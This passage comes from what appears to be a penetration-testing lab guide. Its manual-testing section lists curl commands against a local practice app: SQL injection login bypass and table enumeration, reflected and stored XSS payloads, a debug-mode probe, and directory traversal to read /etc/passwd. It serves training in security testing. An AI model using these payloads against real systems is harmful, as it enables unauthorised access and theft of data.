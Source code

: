 **Step 2: Analyse Automated Results**
Document the automated findings and assess their accuracy and completeness.

### Activity 4: Manual Penetration Testing

**Objective:** Perform manual exploitation techniques to validate and extend automated findings.

**Step 1: Manual SQL Injection Testing**
```bash
# Test for SQL injection bypassing automated detection
curl -X POST "http://localhost:5000/login" \
  -d "username=admin' OR '1'='1&password=anything" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Test database enumeration
curl -X POST "http://localhost:5000/search" \
  -d "query=' UNION SELECT table_name FROM information_schema.tables--" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

**Step 2: Advanced XSS Testing**
```bash
# Test for XSS with evasion techniques
curl "http://localhost:5000/search?q=<script>alert('XSS')</script>"

# Test for stored XSS
curl -X POST "http://localhost:5000/comment" \
  -d "comment=<img src=x onerror=alert('Stored XSS')>" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

**Step 3: Configuration Exploitation**
```bash
# Test debug mode exploitation
curl "http://localhost:5000/debug" -v

# Test for directory traversal
curl "http://localhost:5000/file?name=../../../etc/passwd"

# Test authentication bypass
curl -X POST "http://localhost:5000/login" \
  -d "username=admin&password=admin" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

**Expected Results:**
- Successful SQL injection leading to authentication bypass
- XSS payload execution in application responses
- Access to debug information and configuration details
- Discovery of additional attack vectors missed by automated tools

### Activity 5: Post-Exploitation Analysis

**Objective:** Understand the full impact of successful exploitation.
